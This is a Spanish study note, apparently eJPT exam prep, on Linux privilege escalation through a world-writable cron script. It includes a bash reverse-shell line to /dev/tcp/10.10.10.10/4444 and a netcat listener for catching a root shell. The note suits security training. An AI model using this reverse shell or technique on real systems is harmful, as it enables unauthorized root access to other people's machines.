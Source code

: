 
- Los trabajos cron son programas o scripts que los usuarios pueden programar para que se ejecuten en momentos o intervalos específicos. Los archivos de tabla cron (crontabs) almacenan la configuración de las tareas cron. El crontab de todo el sistema se encuentra en /etc/crontab.

- Vea el contenido del crontab de todo el sistema:

```
cat /etc/crontab
```

![[Apuntes/Imagenes/Pasted image 20240323000137.png]]
- Debería haber dos trabajos cron programados para ejecutarse cada minuto. Uno ejecuta overwrite.sh, el otro ejecuta /usr/local/bin/compress.sh.

- Localice la ruta completa del archivo overwrite.sh:

```
locate overwrite.sh
```

- Tenga en cuenta que el archivo se puede escribir en todo el mundo:

```
ls -l /usr/local/bin/overwrite.sh
```

- Reemplace el contenido del archivo overwrite.sh con lo siguiente después de cambiar la dirección IP a la de su Kali Box.

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

- Configure un detector de netcat en su caja Kali en el puerto 4444 y espere a que se ejecute el trabajo cron (no debería tardar más de un minuto).Un shell raíz debería conectarse nuevamente a su oyente netcat. Si no vuelve a verificar los permisos del archivo, ¿falta algo?

```
nc -nvlp 4444
```

Enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/Cron Jobs - Wildcards]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/Cron Jobs - PATH Environment Variable]]
